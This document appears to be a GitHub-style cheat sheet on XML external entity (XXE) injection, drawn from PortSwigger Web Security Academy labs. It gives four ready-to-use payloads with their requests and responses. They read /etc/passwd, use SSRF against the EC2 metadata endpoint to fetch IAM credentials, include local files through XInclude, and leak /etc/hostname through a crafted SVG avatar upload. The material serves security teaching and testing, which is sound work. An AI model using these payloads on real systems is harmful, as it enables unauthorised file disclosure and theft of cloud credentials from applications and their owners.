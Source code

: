 # XML external entity (XXE) injection

>XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.


## Summary

- [XML external entity (XXE) injection](#xml-external-entity-xxe-injection)
  - [Summary](#summary)
  - [Exploits](#exploits)
    - [Basic XXE Attack](#basic-xxe-attack)
    - [XXE to SSRF attack](#xxe-to-ssrf-attack)
    - [XXE via XInclude attacks](#xxe-via-xinclude-attacks)
    - [XXE via image file upload](#xxe-via-image-file-upload)
  - [Resources](#resources)


## Exploits

### Basic XXE Attack 

:fire: **Example 1 :**

Request : 

```bash
POST /product/stock HTTP/1.1
Host: sub.web-security-academy.net
User-Agent: Mozilla/5.0 
```
Request Body:

```bash
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
Modified Request Body:

```bash
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Response:

```bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```

### XXE to SSRF attack 

:fire: **Example 2 : on a server running a (simulated) EC2 metadata endpoint at the default URL** 

Request : 

```bash
POST /product/stock HTTP/1.1
Host: sub.web-security-academy.net
User-Agent: Mozilla/5.0 
```
Request Body:

```bash
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
Modified Request Body:

```bash
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Response:

```bash
"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2020-04-29T18:31:02.474182Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "SecretKey",
  "SecretAccessKey" : "SecretKey",
  "Token" : "SecretToken",
  "Expiration" : "2026-04-28T18:31:02.474182Z"
}"
```

### XXE via XInclude attacks

:fire: **Example 3 :** 

Request : 

```bash
POST /product/stock HTTP/1.1
Host: sub.web-security-academy.net
User-Agent: Mozilla/5.0 
```
Request Body:

```bash
productId=1&storeId=1
```
Modified Request Body:

```bash
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
&storeId=1
```

Response:

```bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```

### XXE via image file upload

:fire: **Example 4 :** 

 Create a local SVG image with the following content: 

 ```bash
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
 ```

 Post a comment on a blog post, and upload this image as an avatar. 

 When you view your comment, you should see the contents of the /etc/hostname file in your image.

 
## Resources

* [PortSwigger](https://portswigger.net/web-security/xxe)